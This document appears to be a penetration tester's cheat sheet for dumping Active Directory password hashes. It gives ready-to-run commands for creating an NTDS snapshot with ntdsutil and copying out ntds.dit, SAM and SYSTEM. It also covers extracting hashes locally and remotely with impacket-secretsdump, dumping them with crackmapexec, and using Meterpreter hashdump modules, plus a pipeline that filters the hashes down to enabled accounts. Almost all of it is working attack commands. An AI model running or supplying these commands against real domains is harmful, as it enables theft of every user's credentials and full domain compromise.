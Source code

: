 # Dumping domain hashes

## NTDSutil

```
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
-- or --

ntdsutil
> snapshot
> activate instance ntds
> create
> mount {GUID}
```

Then browse to the mounted directory in the C:/ and copy out the ntds.dit && SAM & SYSTEM file to your prefered location

To delete the snapshot after:

```
delete {GUID}
```

Then pull the hashes out with Impacket's Secretdump

```
impacket-secretsdump -system SYSTEM -ntds ntds.dit -hashes lmhash:nthash -user-status -outputfile myhashes local
```

The tidy up the hashes

```
cat myhashes.ntds | grep -v "$:" | grep "status=Enabled" | cut -d'\' -f2 | cut -d"(" -f1
```

Or you can do it with a 1 liner remotely. but becareful it doesnt crash the connection

{% code overflow="wrap" %}
```
impacket-secretsdump -just-dc -user-status -pwd-last-set -history -exec-method smbexec DOMAIN/USER:PASS@IP
```
{% endcode %}

## crackmapexec

```
crackmapexec smb <DC-IP> -u <user> -p <password> --ntds
```

## Meterpreter

Once you have your Meterpreter shell from your exploit of choice, such as PSEXEC

```
run post/windows/gather/smart_hashdump
--- or ---
run post/windows/gather/credentials/domain_hashdump
```
